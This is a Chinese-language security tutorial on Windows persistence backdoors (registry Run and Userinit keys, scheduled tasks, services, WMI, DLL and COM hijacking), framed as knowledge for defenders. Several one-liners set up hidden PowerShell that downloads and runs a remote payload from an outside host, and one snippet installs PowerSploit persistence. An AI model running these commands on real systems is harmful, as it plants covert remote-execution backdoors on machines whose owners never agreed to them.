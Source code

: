 关键词：Windows系统后门、权限维持

在获取服务器权限后，通常会用一些后门技术来维持服务器权限，服务器一旦被植入后门，攻击者便如入无人之境。本文将对常见的window服务端自启动后门技术进行解析，知己知彼方能杜绝后门。


# 0x01 注册表自启动
通过修改注册表自启动键值，添加一个木马程序路径，实现开机自启动。

常用的注册表启动键：
```
# Run键 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

# Winlogon\Userinit键
HKEY_CURRENT_USER\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon

类似的还有很多,关键词：注册表启动键值。
```

使用以下命令可以一键实现无文件注册表后门：<br />`reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "Keyname" /t REG_SZ /d "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8888/logo.gif'))\"" /f`

**1、Logon Scripts 后门**<br />注册表路径：HKEY_CURRENT_USER\Environment\

创建字符串键值：  UserInitMprLogonScript，键值设置为bat的绝对路径：`c:\test.bat`

**2、userinit后门**<br />在用户进行登陆时，winlogon运行指定的程序。根据官方文档,可以更改它的值来添加与删除程序。

利用USERINIT注册表键实现无文件后门：
```
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]
 
"Userinit"="C:\\Windows\\system32\\userinit.exe,C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8888/logo.gif'))\""
```


# 0x02 组策略设置脚本启动
运行gpedit.msc进入本地组策略，通过Windows设置的“脚本(启动/关机)”项来说实现。因为其极具隐蔽性，因此常常被攻击者利用来做服务器后门。<br />![privilege-4-3.png](/_img\05-应急响应/1656916639079-deb57607-bcca-4555-859f-52b4d83a44e7.png)

容易遇到的问题：脚本需全路径，如`C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`


# 0x03 计划任务
通过window系统的任务计划程序功能实现定时启动某个任务，执行某个脚本。

使用以下命令可以一键实现：
```
schtasks /create /sc minute /mo 1 /tn "Security Script" /tr "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring(\"\"\"http://192.168.28.142:8888/logo.gif\"\"\"))\""
```

容易遇到的问题：cmd命令行执行单引号会被替换成双引号，故这里使用三个双引号替代。

计划脚本每 1 分钟运行一次。<br />![privilege-4-4.png](/_img\05-应急响应/1656916647995-756d82bb-0da3-431b-98c6-ce344b9061a1.png)


# 0x04 服务自启动
通过服务设置自启动，结合powershell实现无文件后门。

使用以下命令可实现：
```
sc create "KeyName" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8888/logo.gif'))\""

sc description  KeyName "Just For Test"   //设置服务的描述字符串
sc config Name start= auto                //设置这个服务为自动启动
net start Name                            //启动服务
```

成功创建了一个自启动服务<br />![privilege-4-5.png](/_img\05-应急响应/1656916655316-fc67e003-2b48-43eb-b7c5-236371b02674.png)


# 0x05 WMI后门
在2015年的blackhat大会上Matt Graeber介绍了一种无文件后门就是用的WMI。这里可以利用一个工具powersploit，下面用它的Persistence模块来示范一个简单的例子。

```
Import-Module .\Persistence\Persistence.psm1
$ElevatedOptions = New-ElevatedPersistenceOption -PermanentWMI -Daily -At '3 PM'
$UserOptions = New-UserPersistenceOption -Registry -AtLogon
Add-Persistence -FilePath .\EvilPayload.ps1 -ElevatedPersistenceOption $ElevatedOptions -UserPersistenceOption $UserOptions -Verbose
```


# 0x06 dll劫持
如果在进程尝试加载一个DLL时没有指定DLL的绝对路径，那么Windows会尝试去指定的目录下查找这个DLL；如果攻击者能够控制其中的某一 个目录，并且放一个恶意的DLL文件到这个目录下，这个恶意的DLL便会被进程所加载，从而造成代码执行。

比较常用的如LPK.dll的劫持：

win7及win7以上系统增加了KnownDLLs保护，需要在注册表：

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionManager\ExcludeFromKnownDlls
```

下添加 “lpk.dll” 才能顺利劫持：<br />![privilege-4-6.png](/_img\05-应急响应/1656916690726-a645b770-612d-4027-baf1-c4c42e3f4c14.png)


# 0x07 COM劫持
利用COM劫持技术，最为关键的是dll的实现以及CLSID的选择，通过修改CLSID下的注册表键值，实现对CAccPropServicesClass和MMDeviceEnumerator劫持，而系统很多正常程序启动时需要调用这两个实例。这种方法可以绕过Autoruns对启动项的检测。<br />![privilege-4-7.png](/_img\05-应急响应/1656916697541-47875c6a-eccc-4dc7-85fe-02fcb6699a48.png)


# 0x08 远程控制
远控木马是一种恶意程序，其中包括在目标计算机上用于管理控制的后门。远程访问木马通常与用户请求的程序（如游戏程序）一起，是一种看不见的下载，或作为电子邮件附件发送。一旦主机系统被攻破，入侵者可以利用它来向其他易受感染的计算机分发远程访问木马，从而建立僵尸网络。

一般分为客户端和服务端，如：灰鸽子、上兴远控、梦想时代、QuasarRAT等。<br />![privilege-4-8.png](/_img\05-应急响应/1656916711586-988691ee-6ac3-4399-8cf7-3cf465bdcad5.png)

# 0x09 结束语
未知攻焉知防，本文分享了几种Window下的自动启权限维持技术。管理员在平时运维过程应当保持警惕，掌握一定的入侵排查技巧，及时进行系统补丁更新，定期对服务器安全检查，才能有效地预防后门。
